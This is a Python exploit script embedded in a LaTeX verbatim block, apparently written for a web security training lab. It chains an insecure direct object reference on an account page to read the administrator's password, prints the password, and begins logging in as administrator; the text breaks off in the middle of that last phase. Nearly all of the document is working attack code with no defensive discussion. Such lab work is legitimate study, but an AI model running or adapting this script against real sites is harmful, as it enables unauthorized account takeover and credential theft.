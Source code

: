\documentclass[11pt,letterpaper]{article}
\begin{document}
\par\noindent\begin{minipage}{\linewidth}
\captionsetup{hypcap=false}%
\end{minipage}\par\nopagebreak
\begin{verbatim}
#!/usr/bin/env python3
"""Minimal IDOR + Password Disclosure exploitation script."""

import sys
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

def exploit(base_url: str) -> bool:
    """Complete attack chain execution."""

    # Phase 1: Login as wiener
    print("[*] Phase 1: Logging in as wiener...")
    s1 = requests.Session()

    r = s1.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']

    s1.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'wiener',
        'password': 'peter'
    }, verify=False, proxies=PROXIES, timeout=15)

    print("[+] Logged in as wiener")

    # Phase 2: IDOR to get admin password
    print("[*] Phase 2: Exploiting IDOR...")
    r = s1.get(f"{base_url}/my-account?id=administrator",
               verify=False, proxies=PROXIES, timeout=15)

    if 'administrator' not in r.text.lower():
        print("[-] IDOR failed")
        return False

    print("[+] Accessed administrator account page")

    # Extract password
    soup = BeautifulSoup(r.text, 'html.parser')
    pwd_input = soup.find('input', {'name': 'password'})
    admin_password = pwd_input['value']
    print(f"[+] Administrator password: {admin_password}")

    # Phase 3: Login as admin
    print("[*] Phase 3: Logging in as administrator...")
    s2 = requests.Session()

    r = s2.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']


\end{verbatim}
\end{document}
